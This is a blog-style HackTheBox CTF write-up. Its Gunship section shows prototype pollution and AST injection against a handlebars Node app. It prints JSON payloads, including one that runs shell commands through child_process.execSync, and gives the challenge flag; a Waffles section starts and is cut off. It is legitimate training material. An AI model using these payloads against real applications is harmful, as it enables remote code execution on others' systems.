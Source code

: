 ```yaml
---
permalink: /portfolio/android/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: HTB CTF
---
```


## Gunship

Gunship is an easy web challenge with one-star difficulty. It is a simple website that asks you for a name of a band member you like best and then responds with `Hello guest, thank you for letting us know!`. After throwing some tests at it, we started looking through the code. There we found this:

```js
// unflatten seems outdated and a bit vulnerable to prototype pollution
// we sure hope so that po6ix doesn't pwn our puny app with his AST injection on template engines
```

Ah! This application is vulnerable for AST injection! And apparently some po6ix is able to pwn this. After a quick google we found the page of this po6ix and he has a nice blog post about AST injection. ([source](https://blog.p6.is/AST-Injection/)) AST pollution is a where you can abuse JavaScript's prototype system to write into the memory. Basically, JS's prototyping is setting a default static value to an object, with is always read first. So being able to write into objects is a very good way to exploit an application.

There first tested payload is:

```json
{
  "artist.__proto__.name": "Westaway"
}
```

This sets the the name value of artist to always be "Westaway", this way we will always get a reply via `handebars`, which is vulnerable for AST pollution. So let's exploit the `handlebars`

```json
{
"__proto__.pendingContent": "test"
}
```

![response](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/response.png)

This replaces every reply made with handlebars with "test". This is a very good way to get data out of the application. After that we can see how we exploit this system. As we look further to po6ix's blog, there is an RCE in handlebars. The blog shows that this payload can lead to an RCE:

```json
"__proto__.type": "Program",
"__proto__.body": [{
  "type": "MustacheStatement",
  "path": 0,
  "params": [{
    "type": "NumberLiteral",
    "value": "process.mainModule.require('child_process').execSync('id')"
  }],
  "loc": {
    "start": 0,
    "end": 0
  }
}]
```

The `type` states that the body is a Program, or something to execute. Then the value of the parameter is executed. In this case it just runs `id` in the shell. We cannot read the value of this, because it is not written any where. For that we edit the `value` to:

```json
"value": "Object.prototype.pendingContent = process.mainModule.require('child_process').execSync('id').toString()"
```

![result](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/result.png)

Alright, now we have an RCE, but it seems that we cannot execute more then one command, because the system will not accept a second command. But, we can reset the machine and we only need one command.

From the `entrypoint.sh` we know where the flag is and that it starts with `flag` and then 5 random characters. So we want to read all files with starting with flag.

```bash
# Generate random flag filename
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
mv /app/flag /app/flag$FLAG
```

So my payload is this:

![payload](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/payload.png)

![flag](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/flag.png)

We execute the payload to read all files starting with flag and then we write it into the pendingContent. The second response uses handlebars, so the pendingContent is also send. With gives us the flag!

HTB{wh3n_l1f3_g1v3s_y0u_p6_st4rt_p0llut1ng_w1th_styl3}

## Waffles

The second challenge I worked on was waffles, this was a more difficult web challenge. A PHP website where you can order a waffle or icecream.